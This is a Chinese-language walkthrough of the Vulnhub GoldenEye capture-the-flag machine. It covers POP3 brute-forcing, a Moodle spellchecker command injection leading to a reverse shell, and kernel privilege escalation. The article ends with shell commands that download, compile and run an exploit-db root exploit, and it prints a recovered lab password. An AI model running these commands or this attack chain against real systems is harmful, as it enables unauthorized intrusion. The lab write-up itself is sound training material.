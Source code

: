 ```yaml
---
title: Vulnhub - GoldenEye の Write-Up
date: 2020-01-13 19:07:21
categories:
- WriteUPs
- Vulnhub
tags:
- Web
---
```

## 前言

&emsp;&emsp;这两天尝试了下[GoldenEye](https://www.vulnhub.com/entry/goldeneye-1,240/)这台靶机，难度不大，但是有坑，也能学到不少的东西，主要是可以接触到POP3渗透方面的知识。

<!-- more -->

## Step 1

&emsp;&emsp;首先第一步还是传统的找靶机IP以及端口扫描：

![](/img/GoldenEye/GoldenEye1.png)

![](/img/GoldenEye/GoldenEye2.png)

&emsp;&emsp;可以看到靶机开启了SMTP和POP3服务。

## Step 2

&emsp;&emsp;首先访问一下80端口的WEB服务：

![](/img/GoldenEye/GoldenEye3.png)

&emsp;&emsp;再按照提示访问/sev-home/：

![](/img/GoldenEye/GoldenEye4.png)

&emsp;&emsp;提示这是GoldenEye的授权登录入口。我们暂时还没有帐号和密码，只能再寻找其他线索。回到首页，查看首页源码，在terminal.js中发现重要的信息：

![](/img/GoldenEye/GoldenEye5.png)

&emsp;&emsp;提示中告诉了我们Boris的密码，是Unicode编码的，去解密：

![](/img/GoldenEye/GoldenEye6.png)

&emsp;&emsp;然后我们用解出的密码登录GoldenEye系统：

![](/img/GoldenEye/GoldenEye7.png)

&emsp;&emsp;提示我们在一个不常用的端口开启了pop3的服务，当然就是我们扫描时扫到的55007端口。然后查看该页面源代码，发现在最底下还有个hint：

![](/img/GoldenEye/GoldenEye8.png)

## Step 3

&emsp;&emsp;上一步的提示告诉我们两个帐号，结合POP3服务的提示，猜测下一步便要爆破密码：

![](/img/GoldenEye/GoldenEye9.png)

![](/img/GoldenEye/GoldenEye10.png)

&emsp;&emsp;果然爆破出来两个帐号的密码，然后尝试用着两个帐号密码登录55007端口的POP3邮箱：

![](/img/GoldenEye/GoldenEye11.png)

&emsp;&emsp;可以看到Boris账户里有3封邮件，但是这3封邮件并没有任何有价值的信息。再登录Natalya的账户，有2封邮件：

![](/img/GoldenEye/GoldenEye12.png)

![](/img/GoldenEye/GoldenEye13.png)

&emsp;&emsp;第二封邮件给了我们一个账号以及提示，我们按照提示的步骤首先添加域名，然后访问看看会遇到什么：

![](/img/GoldenEye/GoldenEye14.png)

&emsp;&emsp;这是一个Moodle系统，利用邮件里的帐号和密码登录系统：

![](/img/GoldenEye/GoldenEye15.png)

![](/img/GoldenEye/GoldenEye16.png)

&emsp;&emsp;登录之后就收到一封邮件，查看邮件具体内容发现就是简单的欢迎信件，然后发现Dr.Doak的邮箱用户名为doak：

![](/img/GoldenEye/GoldenEye17.png)

&emsp;&emsp;好吧，再去爆破一下doak的帐号和密码：

![](/img/GoldenEye/GoldenEye18.png)

&emsp;&emsp;登陆一下，找找有没有有用的信息：

![](/img/GoldenEye/GoldenEye19.png)

&emsp;&emsp;提示我们回到原来的网站用这个账户去登录寻找进一步的信息：

![](/img/GoldenEye/GoldenEye20.png)

## Step 4

&emsp;&emsp;在Dr.Doak账户里我们找到Moodle为2.2.3版本，下一步就是去找一些可以利用的漏洞了。在MSF中找到一个moodle的利用模块，但是该模块需要admin的账户密码，只能继续寻找，在dr_doak账户的私人文件中找到一个txt文件：

![](/img/GoldenEye/GoldenEye21.png)

&emsp;&emsp;下载下来，打开看一下内容：

![](/img/GoldenEye/GoldenEye22.png)

&emsp;&emsp;按照提示下载照片：

![](/img/GoldenEye/GoldenEye23.png)

&emsp;&emsp;发现照片里藏了一串奇怪的base64编码：

![](/img/GoldenEye/GoldenEye24.png)

&emsp;&emsp;解密一下得到：xWinter1995x!

&emsp;&emsp;尝试了一下，发现这是梦寐以求的admin用户密码：

![](/img/GoldenEye/GoldenEye25.png)

&emsp;&emsp;于是继续之前的MSF利用模块：

![](/img/GoldenEye/GoldenEye26.png)

&emsp;&emsp;但是会发现利用失败，因为我的MSF是最新版本，rhosts会根据域名到hosts文件中寻找，然后自动替换成IP，而靶机上的这个网站限制了只能通过域名访问，所以漏洞无法利用成功，只能找下这个漏洞利用模块的源代码，尝试手动利用。

![](/img/GoldenEye/GoldenEye27.png)

&emsp;&emsp;首先根据利用脚本将Spell engine改成PSpellShell：

![](/img/GoldenEye/GoldenEye28.png)

&emsp;&emsp;然后根据提示在aspellpath处插入payload：

![](/img/GoldenEye/GoldenEye29.png)

&emsp;&emsp;通过shellpop创建pythonf反弹shell的payload：

![](/img/GoldenEye/GoldenEye30.png)

&emsp;&emsp;创建一篇新的blog，随便写点内容，然后点击Toggle spellchecker即可触发payload得到反弹shell：

![](/img/GoldenEye/GoldenEye31.png)

![](/img/GoldenEye/GoldenEye32.png)

## Step 5

&emsp;&emsp;通过上一步我们得到了一个低权限的账号，下一步就是提权。使用`uname -a`命令查看靶机内核版本：

![](/img/GoldenEye/GoldenEye33.png)

&emsp;&emsp;找一下提权的利用脚本：

![](/img/GoldenEye/GoldenEye34.png)

&emsp;&emsp;然后利用该脚本即可获取该靶机root权限了，具体操作如下：

```bash
$ cd /tmp # 进入/tmp目录，方便读写
$ wget https://www.exploit-db.com/download/37292.c
$ sed -i 's/gcc/cc/g' 37292.c # 系统内没有gcc,所以只能用cc代替
$ cc 37292.c -o evil # 编译exp
$ chmod 700 evil
$ ./evil
```